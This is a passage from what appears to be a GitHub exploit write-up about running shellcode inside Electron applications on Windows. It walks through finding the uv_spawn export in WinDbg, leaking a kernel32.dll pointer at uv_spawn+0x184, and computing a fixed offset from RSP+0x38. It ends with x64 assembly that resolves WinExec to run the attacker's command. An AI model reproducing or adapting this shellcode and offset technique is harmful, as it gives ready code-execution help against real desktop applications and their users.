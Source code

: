 The electron application binary has many exported functions, one of them is called ```uv_spawn```.
Exported functions address in memory can be found by getting the offset from the binary memory dump in windows or using nm –demangle in linux

![image](https://github.com/user-attachments/assets/143f5310-8e18-428c-a750-ed988753d457)

What we need here is the second column, that is offset of the function.
In windbg the base address of the application and other modules can be obtained with !PEB command 

![image](https://github.com/user-attachments/assets/4e5bfd8c-1991-4360-b4e9-8b417bfaffa7)

Now we can inspect the code of any function by inspecting the address ```app_base + function offset```.For example the function uv_spawn is located at 
7ff6147f0000 + 0x229c1e0. The offsets differ depending on the application binary.
Looking into the function uv_spawn, at offset 0x184 is the following assembly instruction.
Inspecting uv_spawn + 0x184

![image](https://github.com/user-attachments/assets/2cff9684-8875-4051-9c3d-f302a4cd2deb)

Inspecting the call instruction address

![image](https://github.com/user-attachments/assets/85ea9d3b-2760-42c6-bd1f-4a48726f511b)

Inspecting the first address of the call instruction address

![image](https://github.com/user-attachments/assets/9a5bf948-f4fe-4de6-b078-bfccc18c8493)

As seen in the screenshots, the first address uv_spawn + 0x184 contains an assembly instruction which calls the address contained in ```0x7FF61E6D00C0```, the content of this address is the address of a kernel32 function, ```KERNEL32_MultiByteToWideCharStub```
There is a reference to an external module (kernel32.dll) from memory we can control
```uv_spawn + 0x184 = KERNEL32_MultiByteToWideCharStub```
This information is consistent across different electron application so it can be used as a reliable method to leak kernel32.dll and get access to winexec.

As mentioned initially, when our shellcode is executed we can set a breakpoint as the first instruction and inspect the stack.

Breakpoint hit first assembly instruction

![image](https://github.com/user-attachments/assets/146c9bfe-c1a2-4ee2-b79e-45ca475ef6a3)

```RSP + 0x38``` contains an address which is at a fixed offset from the reference to kernel32.dll previously found.

```uv_spawn + 0x184 assembly call instruction address``` –  ```address at RSP + 0x38```

0x7FF61E6D00C0 – 0x7FF618950E8A = 0x5D7F236

Connecting the kernel reference from uv_spawn and the fixed memory value in the stack at RSP + 0x38 we can craft reliable shellcode to access kernel32.dll -> winexec and run our exploit

```assembly
	mov r15, [rsp+0x38]
	push 0x5D7F236
	pop r14
	add r15, r14
        mov r13, [r15]   
	push 0x57D70
	pop r12
        add r13, r12
```
First get the content of rsp + 0x38
push the offset to KERNEL32_MultiByteToWideCharStub
Add the offset and store the content of r15 (address of KERNEL32_MultiByteToWideCharStub ) in r13
Push the offset of KERNEL32_WinExec and add it to r13
r13 contains the address of KERNEL32_WinExec